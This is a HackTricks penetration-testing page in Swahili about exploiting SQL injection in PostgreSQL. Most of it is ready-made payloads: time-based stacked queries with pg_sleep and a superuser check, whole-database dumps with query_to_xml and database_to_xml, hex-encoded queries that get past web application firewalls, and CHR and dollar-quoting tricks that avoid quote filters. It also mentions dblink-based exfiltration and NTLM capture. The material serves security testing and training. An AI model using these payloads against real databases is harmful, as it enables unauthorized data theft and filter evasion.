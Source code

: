 # PostgreSQL injection

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha kwa Kipolandi kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Ukurasa huu unalenga kuelezea hila tofauti ambazo zinaweza kukusaidia kutumia SQLinjection iliyopatikana katika hifadhidata ya postgresql na kukamilisha hila ambazo unaweza kupata kwenye** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**Moduli ya PostgreSQL `dblink`** inatoa uwezo wa kuungana na mifano mingine ya PostgreSQL na kutekeleza muunganisho wa TCP. Vipengele hivi, vinapounganishwa na kazi ya `COPY FROM`, vinawezesha vitendo kama vile kupandisha mamlaka, skanning ya bandari, na kukamata majibu ya changamoto ya NTLM. Kwa mbinu za kina za kutekeleza mashambulizi haya angalia jinsi ya [kutekeleza mashambulizi haya](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Mfano wa Exfiltration ukitumia dblink na vitu vikubwa**

Unaweza [**kusoma mfano huu**](dblink-lo\_import-data-exfiltration.md) kuona mfano wa CTF wa **jinsi ya kupakia data ndani ya vitu vikubwa na kisha kutoa maudhui ya vitu vikubwa ndani ya jina la mtumiaji** wa kazi `dblink_connect`.

## Mashambulizi ya PostgreSQL: Soma/andika, RCE, privesc

Angalia jinsi ya kuathiri mwenyeji na kupandisha mamlaka kutoka PostgreSQL katika:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Kuhusisha nyuzi kunaweza kukusaidia **kuzidi WAFs au vizuizi vingine**.\
[**Katika ukurasa huu** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**unaweza kupata baadhi ya kazi za nyuzi zinazofaa.**

### Stacked Queries

Kumbuka kwamba postgresql inasaidia maswali yaliyopangwa, lakini programu kadhaa zitatoa kosa ikiwa majibu 2 yatatolewa wakati yanatarajiwa 1 tu. Lakini, bado unaweza kutumia maswali yaliyopangwa kupitia Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query\_to\_xml**

Hii kazi itarudisha data zote katika muundo wa XML katika faili moja tu. Ni bora ikiwa unataka kutupa data nyingi katika safu moja tu:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Hii kazi itatoa hifadhidata yote katika muundo wa XML kwa safu 1 tu (kuwa makini ikiwa hifadhidata ni kubwa sana kwani unaweza kuisababisha DoS au hata mteja wako mwenyewe):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Ikiwa unaweza kuendesha **queries** ukipitia **ndani ya string** (kwa mfano kutumia kazi ya **`query_to_xml`**). **Unaweza kutumia convert\_from kupitisha string kama hex na kupita vichungi kwa njia hii:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Nukuu zilizokatazwa

Ikiwa huwezi kutumia nukuu kwa payload yako unaweza kupita hii kwa `CHR` kwa masharti ya msingi (_kuunganisha wahusika kunafanya kazi tu kwa maswali ya msingi kama vile SELECT, INSERT, DELETE, nk. Hakiifanyi kazi kwa taarifa zote za SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Au na `$`. Hizi maswali yanarudisha matokeo sawa:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya uhalifu wa kompyuta** na kujaribu kuvunja yasiyoweza kuvunjwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha kwa Kipolandi kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za uhalifu wa kompyuta kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
